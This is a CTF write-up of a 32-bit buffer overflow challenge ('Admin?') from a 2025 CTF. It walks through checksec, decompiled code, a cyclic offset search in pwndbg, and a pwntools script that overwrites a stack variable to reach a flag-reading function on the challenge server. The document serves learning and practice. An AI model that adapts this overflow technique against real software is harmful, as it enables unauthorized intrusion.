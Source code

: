 ```yaml
--- 
title: Binary Exploitation -  Admin?
date: 2025-01-27 
categories: [CTF, Writeups] 
tags: [ctf, buffer_overflow , pwn ] 
author: 0xhyder
description: A walkthrough of the pwn challenge from the IIT BHU - Codefest CTF 2025
---
```


### Description

### 100

challenge by : 0xkn1gh7

Can you become admin?

### Solution

we got a ELF executable file,

![[/assets/images/image1.png]]

checksec,

![[/assets/images/image3.png]]

From the initial inspection of the ELF executable file,

1. The file is a 32-bit, little-endian executable.
2. The file is not stripped, allowing for easier debugging.
3. No stack canary is present, suggesting a vulnerability to buffer overflow attacks.

From the Decompiled Code ,
```c

int32_t win()
{
    void var_74;
    fgets(&var_74, 0x64, fopen("/flag.txt", u"r…"));
    return puts(&var_74);
}

int32_t main(int32_t argc, char** argv, char** envp)
{
    void* const __return_addr_1 = __return_addr;
    int32_t* var_10 = &argc;
    setbuf(*stdout, nullptr);
    banner();
    int32_t var_14 = 1;
    void buf;
    fgets(&buf, 0x32, *stdin);
    
    if (var_14 != 0x23456723)
        printf("%x\\n", var_14);
    else
        win();
    
    return 0;
}

int32_t _fini()
{
    return;
}
```

At first, the idea was to overwrite the `EIP` register to directly call the `win()` function. Using `cyclic()` to find the offset for `EIP`:

```python
from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

```

![[/assets/images/image2.png]]

However, after testing, it was observed that the EIP register was not overwritten. Upon further inspection of the assembly code:
![[/assets/images/image4.png]]

From the disassembly, it was noticed that the variable `var_14` is stored at `ebp - 0xc`. The value of `var_14` is compared with `0x23456723` at `main+89`. Using a debugger to set the break point at the address 0x56556315 to inspect the value:

```python
pwndbg> print/x *(int*)($ebp - 0xc)
$1 = 0x61616169
pwndbg> print/x ($ebp - 0xc)
```

This reveals the offset where `var_14` is located. Using `cyclic_find()`

```python
>>> cyclic_find(0x61616169)
32
```

The offset is confirmed to be 32 bytes.

Since the offset is revealed , By crafting a payload to overwrite the value at offset 32 with `0x23456723`, the condition to call the `win()` function is satisfied, and the flag can be retrieved.

### Exploit

using python with pwn for script,

```python
from pwn import *
context.log_level = 'critical'
elf = context.binary = ELF('chall')

gdbscript = '''
break *main
continue
'''

if args.REMOTE:
    p = remote('codefest-ctf.iitbhu.tech', 16391)
elif args.GDB:
     p = gdb.debug(elf.path, gdbscript=gdbscript)
else:
    p = process(elf.path)  

log.info("\\\\n==== start exploit ====\\\\n")
p.recvuntil(b'Admin?')
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\\x23\\x67\\x45\\x23'
p.sendline(payload)
print(p.recv())
p.interactive()
```

got the flag,
![[/assets/images/image5.png]]